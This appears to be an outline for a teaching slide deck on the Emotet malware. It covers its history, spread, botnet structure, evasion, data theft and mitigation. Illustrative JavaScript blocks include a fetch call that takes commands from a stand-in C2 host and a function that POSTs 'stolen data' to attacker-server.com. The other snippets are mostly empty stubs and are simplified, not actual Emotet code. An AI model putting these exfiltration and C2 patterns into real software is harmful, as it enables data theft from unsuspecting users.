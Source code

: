 
## Table of Contents


### Introduction and History:

- **Slide 1:** Title and brief overview of Emotet (Text).
- **Slide 2:** Historical timeline or infographic depicting Emotet's evolution (Image).
- **Slide 3:** Key milestones in Emotet's development (Text and possibly Images).

### Propagation Methods:

- **Slide 1:** Title and explanation of Emotet's propagation methods (Text).
- **Slide 2:** Visual representation of a typical Emotet spam email (Image).
- **Slide 3:** Diagram showing how Emotet spreads through malicious links and attachments (Image).

### Modular Architecture and Botnet Infrastructure:

- **Slide 1:** Title and explanation of Emotet's modular architecture (Text).
- **Slide 2:** Diagram illustrating Emotet's modular components (Image).
- **Slide 3:** Visualization of Emotet's botnet structure (Code).

**Code Block Example for Slide 3 (Modular architecture in JavaScript):**

```javascript
// Example of Emotet's Botnet Communication
function communicateWithC2Server() {
    const c2Server = "http://malicious-c2.com";
    const payload = "data_to_send";

    // Code to establish communication with the C2 server
    fetch(`${c2Server}/command?data=${payload}`)
        .then(response => response.text())
        .then(data => {
            // Code to process and execute received commands
            if (data === "download_payload") {
                downloadMalwarePayload();
            } else if (data === "spread_malware") {
                spreadMalware();
            }
        })
        .catch(error => {
            // Handle communication errors
            console.error("Error communicating with C2 server:", error);
        });
}

// Example of Emotet's Payload Download Functionality
function downloadMalwarePayload() {
    // Code to download and execute additional malware payloads
    // ...
}

// Example of Emotet's Malware Spreading Functionality
function spreadMalware() {
    // Code to spread Emotet to other vulnerable systems
    // ...
}

// Call the communication function to interact with the C2 server
communicateWithC2Server();
```

### Persistence and Evasion Techniques:

- **Slide 1:** Title and explanation of how Emotet maintains persistence (Text).
- **Slide 2:** Visualization of Windows Registry modifications (Image).
- **Slide 3:** Explanation of Emotet's evasion tactics with examples (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Evasion Tactics in JavaScript):**

```javascript
// Example of Emotet's Polymorphic Code
function polymorphicCode() {
    // Code to generate polymorphic variations
    // ...
}

// Example of Emotet's Anti-Sandboxing Techniques
function antiSandbox() {
    // Code to detect sandboxing environments
    // ...
}

// Example of Emotet's Process Hollowing
function processHollowing() {
    // Code to perform process hollowing
    // ...
}

// Call the evasion functions
polymorphicCode();
antiSandbox();
processHollowing();
```

### Data Theft and Exfiltration:

- **Slide 1:** Title and overview of data theft by Emotet (Text).
- **Slide 2:** Visual representation of data exfiltration (Image).
- **Slide 3:** Risks associated with data breaches and impact (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Data Exfiltration in JavaScript):**

```javascript
// Example of Emotet's Data Exfiltration Code
function exfiltrateData(dataToSteal) {
    const maliciousServer = "http://attacker-server.com";

    // Code to send stolen data to the attacker's server
    fetch(maliciousServer, {
        method: "POST",
        body: dataToSteal,
    })
    .then((response) => {
        if (response.status === 200) {
            // Successful exfiltration
            console.log("Data exfiltration successful.");
        } else {
            // Exfiltration failed
            console.error("Data exfiltration failed.");
        }
    })
    .catch((error) => {
        // Handle errors during data exfiltration
        console.error("Error during data exfiltration:", error);
    });
}

// Example usage of the data exfiltration function
const dataToSteal = "Sensitive data to be stolen";
exfiltrateData(dataToSteal);
```

### Impact and Dangers:

- **Slide 1:** Title and introduction to Emotet's impact (Text).
- **Slide 2:** Statistics or graphs showing the scale of Emotet's impact (Graphs/Images).
- **Slide 3:** Real-world examples of Emotet-related incidents (Text).

### detection and Mitigation:

- **Slide 1:** Title and strategies for preventing Emotet infections (Text).
- **Slide 2:** Visual representation of email filtering and user education (Images).
- **Slide 3:** Tips for keeping software up-to-date and safe browsing (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Software Update Tips in JavaScript):**

```javascript
// Example JavaScript code for updating software
const updateSoftware = () => {
    // Code to check for and apply software updates
    // ...
};
```

